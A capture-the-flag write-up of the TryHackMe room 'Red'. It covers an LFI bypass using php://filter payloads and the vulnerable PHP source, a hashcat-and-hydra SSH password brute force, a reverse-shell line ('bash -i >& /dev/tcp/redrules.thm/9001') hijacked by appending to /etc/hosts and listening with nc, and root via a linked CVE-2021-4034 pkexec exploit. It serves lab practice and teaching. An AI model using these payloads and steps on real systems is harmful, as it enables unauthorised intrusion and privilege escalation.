 # Red

https://tryhackme.com/room/redisl33t

*A classic battle for the ages.* - rated Easy

A pretty fun room! Few twists and turns, nothing too complicated, and similar to my [Hacker vs. Hacker room](https://tryhackme.com/room/hackervshacker) with its simulation of an on-machine adversary looking to bump your shells, though I think this room does it better :)

1. Scanning reveals just two ports, 22 and 80. On 80 is a brochure-ware site, which immediately suggests some form of LFI as its home page is `/index.php?page=home.html`. Further enumeration of the site doesnt reveal anything interesting.

2. The LFI doesn't work with simple payloads, e.g. `?page=/etc/passwd` or `?page=../../../../../etc/passwd`. However, using a php filter like `?page=php://filter/convert.base64-encode/resource=index.php` allows us to read the index.php source code (after reversing the base64 encoding): 

	```php
	<?php 

    function sanitize_input($param) {
        $param1 = str_replace("../","",$param);
        $param2 = str_replace("./","",$param1);
        return $param2;
    }
    
    $page = $_GET['page'];
    if (isset($page) && preg_match("/^[a-z]/", $page)) {
        $page = sanitize_input($page);
        readfile($page);
    } else {
        header('Location: /index.php?page=home.html');
    }
    
    ?>
	```

3. This shows two protections: `preg_match("/^[a-z]/", $page)` ensures that the first character of the page must be an alphabetic character, and the `sanitize_input` function prevents any path traversal. As shown by using the php filter, this is an easy way to bypass this (as the first character is `p` in `php://`) - in fact it can be simplified, and you can read the passwd file with `?page=php://filter/resource=/etc/passwd`: no path traversal, as we are using an absolute path. This reveals there are two users of note (aside from root): `red` and `blue`.

4. We can only read files - the `readfile` function will prevent loading PHP code (it will be read as text). Interestingly, we can read from remote addresses like the attack box, but without PHP interpretation this seems worthless. So, enumerating some interesting files is the path forward. Eventually,  trying for `/home/blue/.bash_history` revealed something interesting:

	```
	echo "Red rules"
    cd
    hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
    cat passlist.txt
    rm passlist.txt
    sudo apt-get remove hashcat -y
	```

5. Reading `.reminder` revealed `sup3r_p@s$w0rd!`. To replicate the process to generate random password variations, on the THM attack box the command `hashcat --stdout .reminder -r /opt/hashcat/rules/best64.rule > passlist.txt` was used (the `best64.rule` file is in a different location than on the target). Then, the password was brute forced with `hydra -l blue -P passlist.txt ssh://[targetIP]`

> Note, the password seemed to change every minute, so it was best to keep this hydra command handy.

6. Logging on as blue, **the first flag** is in their home directory. Several messages are eventually sent your way and eventually the session is killed, as the room description suggested would happen. To avoid this, use ssh `blue@[targetIP] -T` - `-T` doesn't create a pts file, meaning standard methods of killing user sessions don't work. This is a common trick in THMs [King of the Hill](https://tryhackme.com/games/koth) game mode, which I document here on [my koth tips and tricks](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/README.md#general-tips-and-tricks).

7. Poking about, you can see an interesting process being run every minute via `ps aux`: `bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001` - this is being run as the user `red`, the next target user, and if there is a listener on 9001 on redrules.thm this will grant a rev shell. If you `cat /etc/hosts` to see where redrules.thm is, you will see:

	```
	127.0.0.1 localhost
    127.0.1.1 red
    192.168.0.1 redrules.thm
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouter
	```

8. The IP address 192.168.0.1 does not exist in this network. If you use `ls -la` on `/etc/hosts` you will see it has the permissions `-rw-r--rw- 1 root adm 242 Jul 14 21:27 /etc/hosts` - this suggests it *should* be writable, however attempts to do so will fail. When a file is supposedly writable but you can't edit it, a KOTH trick is to check its extra attributes. This can be done with `lsattr /etc/hosts` which will reveal: `-----a--------e----- /etc/hosts`. That is, the file can be appended to only. Therefore `echo test >> /etc/hosts` will work.

9. Hosts seems to follow a latest rule found approach, so adding your attack box to hosts like `echo [attackboxIP] redrules.thm >> /etc/hosts` works and then starting a listener `nc -nvlp 9001` will quickly get you a reverse shell as red.

> much like blue's password, the hosts file is reverted on a regular basis so you might need to repeat this process more than once.

10. **The second flag** is in red's home directory. Enumerating the machine a couple of things stand out. First, there is a .git folder in red's home dir, but it doesn't represent a git repo. Instead it contains a copy of pkexec, with the suid bit set. This doesn't immediately indicate escalation, as pkexec is supposed to have the suid bit and will fail if it doesn't. In fact, the normal pkexec file, with the same size and hash and so the same version of pkexec, is still located in its normal place, escept the suid bit has been removed - if you try to run it it will fail.

11. Checking the version of pkexec can be done with `/home/red/.git/pkexec --version`, which reports 0.105. A quick goog will find CVE-2021-4034, a local privilege vuln. This will not work with regular pkexec because of the missing suid bit, but should work with the hidden copy in red's folder.

12. The exploit I used was from here: https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html. It involves creating a `makefile`, `evil-so.c` and `exploit.c` file on the attack box, **altering `exploit.c` so that the path to pkexec uses the path for red's copy**, running `make`, then copying the created `evil.so` and `exploit` to the target machine (/tmp is writable, so I placed them there). Running `chmod +x exploit` and then `./exploit` granted a root shell.

> Note this compiles fine on the THM attack box (ubuntu based), and runs fine on the target. If using Kali or another distro it might not compile or compile and then not run with libc errors. Its possible to resolve this by ensuring that the target libc version is used, compiling statically or other means. Elsewise, you can use https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py or something else, a pure python solution.

13. The **final flag** is under `/root` as normal. Additionally, under `/root/defense`, you can see all the little scripts used to simulate the attacker, which is neat.

So yeah, fun room. Used a few techniques I haven't seen in rooms for a good long while.
